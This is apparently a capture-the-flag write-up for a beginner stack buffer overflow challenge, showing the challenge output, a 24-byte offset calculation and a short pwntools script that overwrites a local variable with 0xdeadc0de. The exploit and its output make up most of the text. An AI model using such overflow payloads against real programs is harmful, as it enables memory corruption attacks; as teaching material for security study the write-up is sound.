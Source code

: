# 02_var_overwrite Writeup

## Steps:
1. Run chall. Notice this is similar to 01 except we aim to overwrite `deadbeef` with `deadc0de`
```
$ ./chall                                

Your goal is to modify the variable @ 0x7ffd4fb7a508 to equal 0xdeadc0de

0x7ffd4fb7a4f0: 0x0000000000000000 0x0000000000000000 
0x7ffd4fb7a500: 0xffffffffffffffff 0x00000000deadbeef 

Enter input: AAAA

0x7ffd4fb7a4f0: 0x0000000a41414141 0x0000000000000000 
0x7ffd4fb7a500: 0xffffffffffffffff 0x00000000deadbeef 

You failed to modify the target variable...
Maybe you didn't supply enough input? Try again!
```

2. Determine the distance to the target variable ~ 3 sets of 8 bytes = `24` bytes
3. Create the payload ~ 24 bytes of garbage to reach target variable then `0xdeadc0de`
```
from pwn import *

target = process("./chall")
goal = 0xdeadc0de

payload = b"A"*24
payload += p64(goal)

target.sendline(payload)

s = target.recvall().decode()
print(s)
```

## Solution:
```
$ python3 exploit.py
[+] Starting local process './chall': pid 147061
[+] Receiving all data: Done (446B)
[*] Process './chall' stopped with exit code 1 (pid 147061)

Your goal is to modify the variable @ 0x7ffee150fce8 to equal 0xdeadc0de

0x7ffee150fcd0: 0x0000000000000000 0x0000000000000000 
0x7ffee150fce0: 0xffffffffffffffff 0x00000000deadbeef 

Enter input: 
0x7ffee150fcd0: 0x4141414141414141 0x4141414141414141 
0x7ffee150fce0: 0x4141414141414141 0x00000000deadc0de 

Congrats! You modified the target variable!
```
